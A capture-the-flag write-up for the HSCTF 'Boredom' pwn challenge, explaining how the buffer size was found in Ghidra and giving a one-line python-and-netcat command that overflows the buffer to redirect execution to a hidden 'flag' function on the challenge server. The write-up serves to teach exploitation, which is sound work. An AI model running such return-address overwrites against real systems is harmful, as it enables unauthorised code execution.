 # Boredom

Keith is bored and stuck at home. Give him some things to do.

Connect at nc pwn.hsctf.com 5002.

Note, if you're having trouble getting it to work remotely:

* check your offset, the offset is slightly different on the remote server
* the addresses are still the same

## Solution

Disassemble the bin file using ghidra and check the buffer dimension: it is 208 locally (216 to cause a buffer overflow) and 200 on server (208 to cause a buffer overflow). You'll notice that if you send 220 "a" as input, the program will try to call a function at the address: "0x7f0061616161" (character "a" in ASCII is equal to 0x61 in hex).
So just use the command:

```
python -c "print 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xd5\x11\x40\x00\x00\x00\x00\x00'" | nc pwn.hsctf.com 5002
```

This will cause a bufferoverflow and make the program run the function "flag" (address 0x04011d5) to get the flag.txt from the server.

